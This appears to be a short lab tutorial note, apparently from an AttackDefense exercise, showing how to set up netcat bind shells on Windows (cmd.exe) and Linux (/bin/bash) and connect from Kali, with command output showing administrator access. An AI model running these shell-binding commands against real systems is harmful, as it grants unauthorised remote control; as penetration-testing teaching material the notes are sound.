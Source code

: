 
<img src="./assets/1.png" style="zoom:100%;" />



#### bind shell between windows and kali

**setup a listener** 

```cmd
C:\Users\Administrator\Desktop>nc.exe -nvlp 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [10.4.18.81] from (UNKNOWN) [10.10.80.2] 46142
```

whenever a client connects to this listener, cmd.exe will be executed and the attacker will provided with the command shell



**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -nv 10.4.18.81 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.18.81:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
win-omcnbkr66mn\administrator
```



#### bind shell between linux and kali

**setup a listener** 

```bash
root@attackdefense:~# nc -nvlp 1234 -c /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.80.2.
Ncat: Connection from 10.10.80.2:35192.
```
